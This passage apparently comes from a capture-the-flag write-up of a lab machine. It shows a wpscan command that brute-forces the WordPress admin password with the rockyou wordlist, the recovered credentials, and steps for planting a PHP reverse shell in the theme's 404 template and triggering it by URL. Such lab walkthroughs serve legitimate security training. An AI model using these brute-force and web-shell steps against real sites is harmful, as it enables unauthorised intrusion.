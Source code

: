 we enumerated the user `admin` with wpscan. we can brute force for the password with this command:

`wpscan --url http://internal.thm/blog/wp-login.php -U admin --passwords /usr/share/wordlists/rockyou.txt`

we get the creds:

```bash
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```


I decide to upload a php reverse shell.
This can be done by going to `Appearance > Theme Editor > 404 template`

We can activate the reverse shell by going to this address:

http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php